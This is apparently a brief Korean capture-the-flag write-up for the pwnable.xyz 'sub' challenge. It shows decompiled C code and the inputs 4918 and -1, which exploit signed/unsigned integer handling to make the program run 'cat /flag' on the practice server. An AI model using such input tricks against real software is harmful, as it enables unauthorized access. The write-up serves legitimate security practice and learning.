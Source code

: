 # PWNABLE.XYZ 
## sub
~~~c
_int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+0h] [rbp-18h]
  int v5; // [rsp+4h] [rbp-14h]
  unsigned __int64 v6; // [rsp+8h] [rbp-10h]

  v6 = __readfsqword(0x28u);
  sub_A3E(a1, a2, a3);
  v4 = 0;
  v5 = 0;
  _printf_chk(1LL, "1337 input: ");
  _isoc99_scanf("%u %u", &v4, &v5);
  if ( v4 <= 4918 && v5 <= 4918 )
  {
    if ( v4 - v5 == 4919 )
      system("cat /flag");
  }
  else
  {
    puts("Sowwy");
  }
  return 0LL;
}
~~~
코드는 위와 같다. 설마 하면서 4918과 -1을 넣었다. flag를 얻을 수 있었다.
~~~
nc svc.pwnable.xyz 30001
1337 input: 4918 -1
FLAG{***********}
~~~
모든 문제 얘만 같아라ㅋㅋㅋㅋㅋ
